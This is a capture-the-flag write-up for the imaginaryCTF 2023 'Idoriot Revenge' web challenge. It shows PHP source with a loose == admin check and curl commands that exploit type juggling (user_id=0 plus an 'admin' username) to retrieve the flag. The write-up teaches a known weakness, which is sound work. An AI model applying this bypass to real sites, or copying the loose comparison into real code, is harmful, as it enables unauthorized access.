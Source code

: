 ```yaml
---
title: imaginaryCTF 2023 - Idoriot Revenge
date: Sun Jul 23 07:07:59 PM +04 2023
categories: [Writeup]
tags: [ctf,imaginaryctf,imaginaryctf2023,web]
---
```


## Description

by `tirefire`

The idiot who made it, made it so bad that the first version was super easy. It was changed to fix it.

**Attachments**: [http://idoriot-revenge.chal.imaginaryctf.org](http://idoriot-revenge.chal.imaginaryctf.org/)

## Solution

Same as [Idoriot]({% post_url CTFs/imaginaryCTF/2023/2023-07-23-Idoriot %}), we register and get source code.

```php
// Check user_id
if (isset($_GET['user_id'])) {
    $user_id = (int) $_GET['user_id'];
    // Check if the user is admin
    if ($user_id == "php" && preg_match("/".$admin['username']."/", $_SESSION['username'])) {
        // Read the flag from flag.txt
        $flag = file_get_contents('/flag.txt');
        echo "<h1>Flag</h1>";
        echo "<p>$flag</p>";
    }
}
```

1. We just need to create a user where `admin` word is inside.
2. `$user_id == "php"` user_id is int and `int == str` becomes `int == (int) str`. This is because [php type juggling](https://www.php.net/manual/en/language.types.type-juggling.php) (`==` is not safe for exact comparision, `===` should be used). In this case `(int) str` becomes 0, so we need `user_id` to be 0.

Let's do it with `cUrl`:

```powershell
# "-sS -D -": To get headers (Post and Header request can't be set at the same time)
# "-X POST": Send post request to register
# "-d": Send post form data
➜ curl -sS -D - -X POST http://idoriot-revenge.chal.imaginaryctf.org/register.php -d "username=adminUwU&password=anything"
HTTP/1.1 302 Found
Date: Sun, 23 Jul 2023 14:56:04 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Set-Cookie: PHPSESSID=ece69f5911ff1b59d01be00b81fbc9ce; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: index.php?user_id=729879799
Content-Length: 0
Content-Type: text/html; charset=UTF-8

# Add `?user_id=0` to update user_id to 0
# "-b": Send cookie. PHPSESSID is identifier of user so that's why we requested Headers before
# "-s": To not display progress bar
# "Select-String ictf": `grep` like tool, but in powershell.
➜ curl http://idoriot-revenge.chal.imaginaryctf.org/?user_id=0 -b "PHPSESSID=ece69f5911ff1b59d01be00b81fbc9ce;" -s | Select-String ictf

Welcome, User ID: 729879799<h1>Flag</h1><p>ictf{this_ch4lleng3_creator_1s_really_an_idoriot}</p><h1>Source Code
</h1><code><span style="color: #000000">
```

> Flag: ictf{this_ch4lleng3_creator_1s_really_an_idoriot}
{: .prompt-tip }